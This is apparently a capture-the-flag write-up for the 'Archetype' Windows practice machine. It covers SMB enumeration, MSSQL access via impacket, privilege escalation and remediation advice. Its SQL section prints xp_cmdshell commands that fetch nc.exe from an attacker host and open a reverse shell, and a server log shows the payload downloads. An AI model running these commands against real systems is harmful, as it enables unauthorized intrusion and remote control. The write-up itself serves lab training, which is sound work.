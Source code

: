 ## General Information
- Machine: Archetype
- Difficulty: Very easy
- OS: Windows
- Date: 20/04/2023


## Methodology
- Reconnaissance: Identification of services using Nmap. Exploitation of the "smbclient" service and retrieval of the "prod.dtsConfig" file containing confidential information.
- Exploration: Utilization of the "impacket-mssqlclient" command to access the database and execute a reverse shell. Execution of "winpeas.exe" to identify a vulnerable file with admin information. Exploitation of the "admin" user using the "impacket -psexec" command to discover the flag.
- Results Analysis: Documentation of findings, identification of vulnerabilities, and recommendations for remediation.


## Results
During the reconnaissance phase, the IP address, open ports, and services of the target machine were identified. The exploitation of the "smbclient" service allowed the download of a file named "prod.dtsConfig" which contained confidential information. This information was then used to access the database and execute a reverse shell using the "impacket-mssqlclient" command. With the reverse shell established, further exploration led to the discovery of a vulnerable file containing admin information. Exploiting the "admin" user using the "impacket -psexec" command resulted in the successful retrieval of the flag.

### Reconnaissance
- IP: 10.129.32.176
- Port Scan results:

| Port     | State | Service      | Version         |
|----------|-------|--------------|-----------------|   
| 135/tcp  | open  | msrpc        | Microsoft Windows RPC |
| 139/tcp  | open  | netbios-ssn  | Microsoft Windows netbios-ssn |
| 445/tcp  | open  | microsoft-ds | Windows Server 2019 Standard 17763 microsoft-ds |
| 1433/tcp | open  | ms-sql-s     | Microsoft SQL Server 2017 14.00.1000.00; RTM | 

### Commands used

#### Nmap
~~~nmap
└─$ sudo nmap -sVC -v -T4 -Pn --open -O 10.129.32.176 -oA ./service_scan_port/nmap
~~~

#### smbclient
~~~smbclient
└─$ smbclient -N -L \\\\10.129.32.176\\
~~~

#### impacket-mssqlclient
~~~impacket-mssqlclient
└─$ /usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.32.176 -windows-auth
~~~

#### SQL
~~~ SQL
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.65/nc.exe -outfile nc.exe"
output                                                                                                                

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.14.65 1234"
~~~

#### server
~~~ server
└─$ python3 -m http.server 80          
Serving HTTP on 0.0.0.0 port 80 (http:/
10.129.32.176 - - [20/Apr/2023 00:19:20] "GET /nc.exe HTTP/1.1" 200 -     
10.129.32.176 - - [20/Apr/2023 01:01:13] "GET /winPEASx64.exe HTTP/1.1" 200 -
~~~

#### netcat
~~~ netcat
└─$ nc -lvnp 1234
~~~

#### winpeas
~~~ winpeas
PS C:\Users\sql_svc\Downloads> ./winpeas.exe
~~~


## Exploited Vulnerabilities
- SMB Service (Port 445):
    - Outdated version of Windows Server 2019 Standard with known vulnerabilities.
    - Inadequate sharing permissions and enabled SMBv1, an insecure version of the SMB protocol.

- Microsoft SQL Server (Port 1433):
    - Outdated version of Microsoft SQL Server 2017 with known vulnerabilities.
    - Weak authentication settings and excessive privileges for the "sql_svc" user.
    - Improper firewall configuration, allowing unauthorized access to the SQL Server service.

## Recommendations:
- Update Windows Server 2019 Standard to the latest version.
- Adjust sharing permissions and disable SMBv1.
- Update Microsoft SQL Server 2017 to the latest version.
- Strengthen authentication settings and restrict privileges for the "sql_svc" user.
- Configure the firewall properly to restrict access to the SQL Server service.